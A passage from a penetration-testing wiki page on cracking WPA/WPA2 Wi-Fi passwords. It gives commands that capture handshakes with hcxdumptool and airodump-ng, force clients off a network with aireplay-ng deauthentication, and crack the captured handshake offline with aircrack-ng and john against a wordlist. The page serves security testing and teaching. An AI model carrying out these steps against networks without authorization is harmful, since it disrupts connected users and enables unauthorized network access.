 Note that `hcxdumptool` **also capture handshakes** (something like this will appear: **`MP:M1M2 RC:63258 EAPOLTIME:17091`**). You could **transform** the **handshakes** to **hashcat**/**john** format using `cap2hccapx`

```bash
tcpdump -r /tmp/attack.pcapng -w /tmp/att.pcap
cap2hccapx pmkid.pcapng pmkid.hccapx ["Filter_ESSID"]
hccap2john pmkid.hccapx > handshake.john
john handshake.john --wordlist=/usr/share/wordlists/rockyou.txt
aircrack-ng /tmp/att.pcap -w /usr/share/wordlists/rockyou.txt #Sometimes
```

_I have noticed that some handshakes captured with this tool couldn't be cracked even knowing the correct password. I would recommend to capture handshakes also via traditional way if possible, or capture several of them using this tool._

#### Handshake capture

One way to attack **WPA/WPA2** networks is to capture a **handshake** and try to **crack** the used password **offline**. To do so you need to find the **BSSID** and **channel** of the **victim** network, and a **client** that is connected to the network.\
Once you have that information you have to start **listening** to all the commutation of that **BSSID** in that **channel**, because hopefully the handshake will be send there:

```bash
airodump-ng wlan0 -c 6 --bssid 64:20:9F:15:4F:D7 -w /tmp/psk --output-format pcap
```

Now you need to **deauthenticate** the **client** for a few seconds so it will automatically authenticate again to the AP (please read the part of DoS to find several ways to deauthenticate a client):

```bash
aireplay-ng -0 0 -a 64:20:9F:15:4F:D7 wlan0 #Send generic deauth packets, not always work
```

_Note that as the client was deauthenticated it could try to connect to a different AP or, in other cases, to a different network._

Once in the `airodump-ng` appears some handshake information this means that the handshake was captured and you can stop listening:

![](<../../.gitbook/assets/image (172) (1) (1).png>)

Once the handshake is captured you can **crack** it with `aircrack-ng`:

```
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 64:20:9F:15:4F:D7 /tmp/psk*.cap
```

#### Check if handshake in file

**aircrack**

```bash
aircrack-ng psk-01.cap #Search your bssid/essid and check if any handshake was capture
```

**tshark**
